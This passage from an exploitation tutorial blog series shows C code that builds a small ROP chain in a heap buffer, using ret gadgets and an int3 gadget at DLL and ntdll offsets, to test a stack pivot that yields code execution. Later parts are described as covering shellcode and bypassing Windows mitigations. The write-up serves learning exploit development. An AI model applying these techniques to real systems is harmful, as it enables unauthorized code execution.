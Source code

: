 ```c
// allocate to the general buffer
LPVOID globalAlloc = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 0x1000);
if (globalAlloc != NULL)
{
    memset(globalAlloc, 0x42, 0x1000);

    // build rop chain in the general buffer
    DWORD index = 0;
    PDWORD64 rop = (PDWORD64)(globalAlloc);

    rop[index] = dllBase + 0x1007; index += 1;                                  // ret ; (rop nop)
    rop[index] = dllBase + 0x1007; index += 1;                                  // ret ; (rop nop)
    rop[index] = dllBase + 0x1007; index += 1;                                  // ret ; (rop nop)
    rop[index] = dllBase + 0x1007; index += 1;                                  // ret ; (rop nop)
    rop[index] = ntdllBase + 0xa3060; index += 1;                               // int3 ; ret ; (debug)

    GlobalAllocate(globalAlloc, 0x1000);
}
```

Instead of allocating and writing `0x1000` `B` characters I have allocated and written a very small ROP chain to test that everything works as intended. Let's test this!

<img width="954" alt="Screenshot 2025-01-24 at 08 20 10" src="https://github.com/user-attachments/assets/93d02e13-424e-4166-98f1-1bfa211dd845" style="border: 1px solid black;" />

Everything looks to be working as intended. We break on the brute forced stack pivot, we step through the pivot and note that the stack is now located at our allocated general buffer, when we continue execution we hit the `int3` ROP gadget. We now have code execution!

Hopefully this helps illustrate what has happened so far:

<img width="1061" alt="Screenshot 2025-01-24 at 08 35 17" src="https://github.com/user-attachments/assets/5c6b5e40-09dc-4d4c-a59e-a739eeca32df" style="border: 1px solid black;" />

## What Next?

In the next part things will start to get a bit more interesting. If all goes to plan, I will write about how I will execute shellcode in the general buffer (after making it executable), repair the registers and the stack (so the app doesn't crash), and start switching on mitigations! This is the main reason I am writing all of this. It is good to solidify my understanding of the exploitation techniques so far, but I need to understand the mitigations in Windows and how I might be able to work around them.

[Home](https://plackyhacker.github.io) : [Part 1](https://plackyhacker.github.io/binary/all-the-leaks) : Part 2 : [Part 3](https://plackyhacker.github.io/binary/shellcode-execution)
